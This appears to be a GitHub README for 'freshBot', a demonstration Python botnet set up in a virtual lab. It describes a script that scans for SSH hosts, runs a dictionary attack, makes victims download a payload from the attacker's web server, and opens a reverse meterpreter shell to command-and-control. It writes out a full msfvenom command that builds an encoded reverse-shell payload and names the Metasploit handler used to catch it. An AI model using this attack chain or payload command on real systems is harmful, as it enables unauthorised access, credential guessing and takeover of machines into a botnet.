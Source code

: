 # freshBot
Demonstration of a simple botnet written in Python.<br>
<br>
"scan_drop.py" scans virtual network, if it finds a node with ssh<br>
running on it performs a dictionary attack. If correct credentials are<br>
provided, 1st payload executes and directs target to download an "evil_file"<br>
from our web server. 2nd stage payload is a reverse meterpreter shell to C&C.<br>
<br>
<h3>The Environment Setup</h3>
1. Our Attack machine: <h4>Linux kali 4.16.0-kali2-amd64</h4>
2. Create Web Server: <h4>192.168.203.1/evil_file</h4>
3. 4 target ssh servers on the same virtual network: <h4>ubuntu-16.04.5-desktop-amd64</h4>
&nbsp;&nbsp;&nbsp;192.168.203.150<br>
&nbsp;&nbsp;&nbsp;192.168.203.151<br>
&nbsp;&nbsp;&nbsp;192.168.203.152<br>
&nbsp;&nbsp;&nbsp;192.168.203.153<br>
<br>
4. Create payload: <h4>msfvenom --payload linux/x86/meterpreter_reverse_tcp LPORT=443 LHOST=192.168.203.1 -e shikata_ga_nai -f elf -a x86 -o evil_file</h4>
5. msf5 > <h4>exploit/multi/handler module</h4>
6. scan_drop.py <h4>Scan, Dictionary Attack, RCE.</h4>
